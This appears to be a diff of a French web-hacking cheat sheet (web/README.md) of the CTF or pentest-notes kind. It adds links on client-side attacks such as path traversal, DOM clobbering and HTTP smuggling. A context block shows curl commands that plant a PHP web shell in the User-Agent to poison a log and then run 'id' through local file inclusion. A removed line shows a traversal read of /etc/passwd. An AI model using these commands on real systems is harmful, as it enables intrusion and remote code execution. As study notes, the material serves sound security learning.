

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, 3 parts joined by grey strips. Shown: that part at 96% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/web/README.md
+++ b/web/README.md
@@ -236,7 +244,6 @@ et `.htaccess`
 ```bash
 curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
 curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
-curl -X POST "http://example.org/test.php?file=....//....//....//....//etc/passwd" -d "file=logs_existing.txt"
 ```
 
 ### XXE
@@ -509,11 +515,7 @@ Header Set-Cookie: mettre le scope de l'attribut SameSite = None
 ![https://www.w3schools.com/js/js_htmldom.asp](./images/dom.gif)
 
 - `document.getElementById`
-
 - `document.innerHTML`
-
-Voir aussi `elements`
-
 
 `Hash (#)`
 
@@ -593,29 +592,39 @@ python -m pyftpdlib -D
 ```
 
 
+## Client Side Path Traversal
+
+- https://swisskyrepo.github.io/PayloadsAllTheThings/Client%20Side%20Path%20Traversal/#cspt-to-xss
+- https://swisskyrepo.github.io/PayloadsAllTheThings/Client%20Side%20Path%20Traversal/#cspt-to-csrf
+
 ## Browser Cache
 
 - https://www.offensiveweb.com/docs/client-side/browser-cache/
 
+
 ## CSS Exfiltration
 
 - https://github.com/hackvertor/blind-css-exfiltration
+
 
 ## Dom Clobbering
 
 - https://www.offensiveweb.com/docs/client-side/dom-clobbering/
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/DOM%20Clobbering
 
+
 ## HTTP Smuggling
 
 - https://franso.re/fr/blog/http_rs_pour_les_nuls
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Request%20Smuggling
+
 
 ## Same Origin Method Execution + SelfXSS (+DQL injection)
 
 - https://mushroom.cat/ctf/smsv2-cyctf25-web
 - https://www.offensiveweb.com/docs/client-side/same-origin-method-execution/
 
+
 ## XS -Leaks
 
 - https://xsleaks.dev/
````
Also changed, not shown: other parts of web/README.md (+19 -15 lines).
